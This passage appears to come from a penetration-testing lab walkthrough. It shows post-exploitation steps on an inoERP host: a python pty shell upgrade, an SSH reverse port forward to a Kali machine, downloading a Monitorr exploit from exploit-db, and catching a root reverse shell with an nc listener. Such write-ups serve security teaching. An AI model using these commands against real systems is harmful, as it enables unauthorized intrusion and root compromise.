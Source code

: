 To avoid the restrictions of our shell we can spawn a bash shell through the python3 interpreter:

www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ion$ python3 -c "import pty;pty.spawn('/bin/bash')"                
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.100.44 (192.168.100.44)' can't be established.
ECDSA key fingerprint is SHA256:njTwMdys9ogT4RiXrYmhObsAJBULOX0TxI1QX0MkMtk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@192.168.100.44's password: yourPassword

Linux kali 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 22 13:45:30 2022 from 192.168.100.72
kali@kali:~$
Now on 127.0.0.1:8443 we see an application titled Monitorr and discover the following exploit.

We begin by downloading the exploit to our attacker machine.

kali@kali:~$ wget https://www.exploit-db.com/raw/48980
Now we start a listener.

root@kali:~# nc -nvlp 53
Listening on [any] 53 ...
Returning to our recently downloaded python script we execute it with the following parameters:

kali@kali:~$ python 48980 http://127.0.0.1:8443 192.168.100.44 53
We receive a response in our listener and have obtained root access.

root@kali:~# nc -nvlp 53
listening on [any] 53 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 34976
root@erp:~/Monitorr/assets/data/usrimg# whoami
root
